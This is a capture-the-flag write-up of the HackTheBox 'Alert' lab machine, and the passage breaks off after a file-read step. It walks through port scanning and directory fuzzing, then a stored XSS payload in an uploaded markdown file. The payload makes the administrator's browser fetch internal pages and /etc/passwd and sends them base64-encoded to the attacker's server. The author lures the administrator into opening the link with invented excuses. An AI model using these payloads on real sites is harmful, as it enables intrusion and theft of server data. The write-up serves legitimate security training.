---

title: Alert
published: 2026-10-13
description: Alert is an easy-difficulty Linux machine with a website to upload, view, and share markdown files. The site is vulnerable to cross-site scripting (XSS), which is exploited to access an internal page vulnerable to Arbitrary File Read and leveraged to gain access to a password hash. The hash is then cracked to reveal the credentials leveraged to gain SSH access to the target. Enumeration of processes running on the system shows a PHP file that is being executed regularly, which has excessive privileges for the management group our user is a member of and allows us to overwrite the file for code execution as root.
image: ./alertmachinelogo.png
tags: [Linux, Easy, HackTheBox]
category: writeups
draft: false
---

# Reconnaissance

Let’s start by checking which TCP ports are open

```bash
sudo nmap -sS -p- --open --min-rate 5000 10.129.231.188 -vvv -n -Pn -oN allports.txt
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

And as we can see, we have two services: **SSH** and **HTTP**

Now let’s perform service version detection

```bash
nmap -sVC -p22,80 10.129.231.188 -oN portscan.txt
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

But in **http-title**, we see a message: **Did not follow redirect to http://alert.htb/**

This happens because our device doesn't know what “alert.htb” means.

To fix this, let's add it to the /etc/hosts file

```bash
sudo nvim /etc/hosts
```

```bash
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1        localhost
::1              localhost

10.129.231.188 alert.htb
```

Now let's try to access the **HTTP** service




# Web Service Enumeration

Now let's do some manual enumeration in the web service

In the **About Us** section, we can see an interesting message



**Hello! We are Alert. Our service gives you the ability to view MarkDown. We are reliable, secure, fast and easy to use. If you experience any problems with our service, please let us know. Our administrator is in charge of reviewing contact messages and reporting errors to us, so we strive to resolve all issues within 24 hours. Thank you for using our service!**

In this message, we can clearly see that the administrator is active and reviewing messages that we can send in the **Contact Us** section



But the most interesting section is in the **Markdown Viewer**

In this section, users can upload an **.md** file to the server

With this in mind, let's create our own .md file

```bash
nvim test.md
```

Now let's see if we can insert **JavaScript** code using .md files

```js
<script>
   alert(0);
</script>
```

Once the file has been created, let's upload it to the server



Now let's click **View Markdown** to see if the JavaScript code worked

# XSS Found



This alert confirms that JavaScript code has been injected, meaning this web service is vulnerable to **XSS**

And in the lower right corner, we can see a button that lets us share the Markdown


We won't use that function right now because if the user we send the Markdown to were to open it, they would only see the **0 alert** on their screen

But we already have a powerful attack vector. What we could do with this vector is steal the administrator user's session cookies, but since cookies aren't used in this case, we'll perform an **Information Disclosure** via XSS **(Cross-site Scripting)**

Now we will perform a brute-force attack to enumerate system files and resources that are only accessible on the server side

If we manage to find a file that is accessible only to the Administrator user or another system user, we can use our XSS to see what it contains

# Server-Side Resource

To perform the brute-force attack, we'll use `ffuf`

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://alert.htb/FUZZ
```



The only interesting one is **messages**



As we can see, we can't see anything, this is a clear indication that it's only accessible from the **server side**. We've already found a vector through which we can exploit our XSS

Now let's start by creating our JavaScript file, which we'll use so that the administrator can run it once they open the .md file that links to that JavaScript file

```bash
nvim pwn.js
```

And this is the script

```js
var req = new XMLHttpRequest();
req.open("GET", "http://alert.htb/index.php?page=messages", false);
req.send();

var info = new XMLHttpRequest();
info.open("GET", "http://10.10.15.41/?infoinB64=" + btoa(req.responseText));
info.send();
```

This script ensures that the information we receive is in **BASE64** format

Now all we have to do is create the .md file that will point to the pwn.js resource, which will cause it to run as the user who opened the .md file

```bash
nvim lookathis.md
```

And this is what the .md file contains

```bash
<script src="http://10.10.15.41/pwn.js"></script>
```

Now all we have to do is set up an **HTTP** service in **Python** on port 80, through which the information will be sent once the administrator clicks on our .md file

```bash
sudo python3 -m http.server 80
```



Then we click on **Share Markdown**, and we'll share the link generated by the URL through the **Contact Us** section so that the administrator can run the .md file





# Decoding Base64 Data

And as we can see, we've retrieved the content that was stored in **messages**, since the administrator user was the one who made the request through our script

Now all we have to do is decode it, since it's in **BASE64**

```bash
echo -n 'PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImNzcy9zdHlsZS5jc3MiPgogICAgPHRpdGxlPkFsZXJ0IC0gTWFya2Rvd24gVmlld2VyPC90aXRsZT4KPC9oZWFkPgo8Ym9keT4KICAgIDxuYXY+CiAgICAgICAgPGEgaHJlZj0iaW5kZXgucGhwP3BhZ2U9YWxlcnQiPk1hcmtkb3duIFZpZXdlcjwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1jb250YWN0Ij5Db250YWN0IFVzPC9hPgogICAgICAgIDxhIGhyZWY9ImluZGV4LnBocD9wYWdlPWFib3V0Ij5BYm91dCBVczwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1kb25hdGUiPkRvbmF0ZTwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1tZXNzYWdlcyI+TWVzc2FnZXM8L2E+ICAgIDwvbmF2PgogICAgPGRpdiBjbGFzcz0iY29udGFpbmVyIj4KICAgICAgICA8aDE+TWVzc2FnZXM8L2gxPjx1bD48bGk+PGEgaHJlZj0nbWVzc2FnZXMucGhwP2ZpbGU9MjAyNC0wMy0xMF8xNS00OC0zNC50eHQnPjIwMjQtMDMtMTBfMTUtNDgtMzQudHh0PC9hPjwvbGk+PC91bD4KICAgIDwvZGl2PgogICAgPGZvb3Rlcj4KICAgICAgICA8cCBzdHlsZT0iY29sb3I6IGJsYWNrOyI+qSAyMDI0IEFsZXJ0LiBBbGwgcmlnaHRzIHJlc2VydmVkLjwvcD4KICAgIDwvZm9vdGVyPgo8L2JvZHk+CjwvaHRtbD4KCg==' | base64 -d | cat -l html > messages.html
```

```bash
cat messages.html
```

And this is what we have

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;"><A9> 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

If we take a close look at the code, we can see an interesting **.txt file**

Let's see if we can list its contents



But once again, we don't have permission to see what's inside, so we'll have to access it the same way we did before

Let's modify our script but now pointing to this .txt file

```js
var req = new XMLHttpRequest();
req.open(
	"GET",
	"http://alert.htb/messages.php?file=2024-03-10_15-48-34.txt",
	false,
);
req.send();

var info = new XMLHttpRequest();
info.open("GET", "http://10.10.15.41/?infoinB64=" + btoa(req.responseText));
info.send();
```

Now all that's left is to wait for the administrator to click on the **.md** file



But unfortunately, this file does not contain any information...

But all is not lost! By using this new **file parameter**, which points to **system resources**, we can leave the current working directory and target more interesting files, such as **/etc/passwd**

# XSS To LFI


And now we'll modify our script again, come up with a new excuse so the administrator clicks on our .md file, and get the information contained in the /etc/passwd file



```bash
echo -n 'PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2JpbjovdXNyL3NiaW4vbm9sb2dpbgpzeXM6eDozOjM6c3lzOi9kZXY6L3Vzci9zYmluL25vbG9naW4Kc3luYzp4OjQ6NjU1MzQ6c3luYzovYmluOi9iaW4vc3luYwpnYW1lczp4OjU6NjA6Z2FtZXM6L3Vzci9nYW1lczovdXNyL3NiaW4vbm9sb2dpbgptYW46eDo2OjEyOm1hbjovdmFyL2NhY2hlL21hbjovdXNyL3NiaW4vbm9sb2dpbgpscDp4Ojc6NzpscDovdmFyL3Nwb29sL2xwZDovdXNyL3NiaW4vbm9sb2dpbgptYWlsOng6ODo4Om1haWw6L3Zhci9tYWlsOi91c3Ivc2Jpbi9ub2xvZ2luCm5ld3M6eDo5Ojk6bmV3czovdmFyL3Nwb29sL25ld3M6L3Vzci9zYmluL25vbG9naW4KdXVjcDp4OjEwOjEwOnV1Y3A6L3Zhci9zcG9vbC91dWNwOi91c3Ivc2Jpbi9ub2xvZ2luCnByb3h5Ong6MTM6MTM6cHJveHk6L2JpbjovdXNyL3NiaW4vbm9sb2dpbgp3d3ctZGF0YTp4OjMzOjMzOnd3dy1kYXRhOi92YXIvd3d3Oi91c3Ivc2Jpbi9ub2xvZ2luCmJhY2t1cDp4OjM0OjM0OmJhY2t1cDovdmFyL2JhY2t1cHM6L3Vzci9zYmluL25vbG9naW4KbGlzdDp4OjM4OjM4Ok1haWxpbmcgTGlzdCBNYW5hZ2VyOi92YXIvbGlzdDovdXNyL3NiaW4vbm9sb2dpbgppcmM6eDozOTozOTppcmNkOi92YXIvcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1uZXR3b3JrOng6MTAwOjEwMjpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6MTAxOjEwMzpzeXN0ZW1kIFJlc29sdmVyLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLXRpbWVzeW5jOng6MTAyOjEwNDpzeXN0ZW1kIFRpbWUgU3luY2hyb25pemF0aW9uLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgptZXNzYWdlYnVzOng6MTAzOjEwNjo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwNDoxMTA6Oi9ob21lL3N5c2xvZzovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA1OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KdHNzOng6MTA2OjExMTpUUE0gc29mdHdhcmUgc3RhY2ssLCw6L3Zhci9saWIvdHBtOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDc6MTEyOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCnRjcGR1bXA6eDoxMDg6MTEzOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbGFuZHNjYXBlOng6MTA5OjExNTo6L3Zhci9saWIvbGFuZHNjYXBlOi91c3Ivc2Jpbi9ub2xvZ2luCnBvbGxpbmF0ZTp4OjExMDoxOjovdmFyL2NhY2hlL3BvbGxpbmF0ZTovYmluL2ZhbHNlCmZ3dXBkLXJlZnJlc2g6eDoxMTE6MTE2OmZ3dXBkLXJlZnJlc2ggdXNlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KdXNibXV4Ong6MTEyOjQ2OnVzYm11eCBkYWVtb24sLCw6L3Zhci9saWIvdXNibXV4Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMTM6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KYWxiZXJ0Ong6MTAwMDoxMDAwOmFsYmVydDovaG9tZS9hbGJlcnQ6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmRhdmlkOng6MTAwMToxMDAyOiwsLDovaG9tZS9kYXZpZDovYmluL2Jhc2gKPC9wcmU+Cg==' | base64 -d > etc_passwd.txt
```

```bash
cat etc_passwd.txt
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```

Just by looking at this, we can see that there are **3 users** in the system

```bash
echo "david,albert,root" | tr ',' '\n' > users.txt
```

Now, the best approach would be to check a web service configuration file to see if we can obtain credentials

But to point to that file, we need to know which web service we're dealing with, we can see this in the scan we ran earlier with `nmap`

```bash
cat portscan.txt
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We are facing an **Apache2** service

The default configuration file is located at **/etc/apache2/sites-available/000-default.conf** on operating systems such as **Debian, Ubuntu, Mint, and Pop!_OS**

Now let's point to that file and come up with a new excuse to get the administrator user to click on our .md file

And here is the information that was contained in that file

```bash
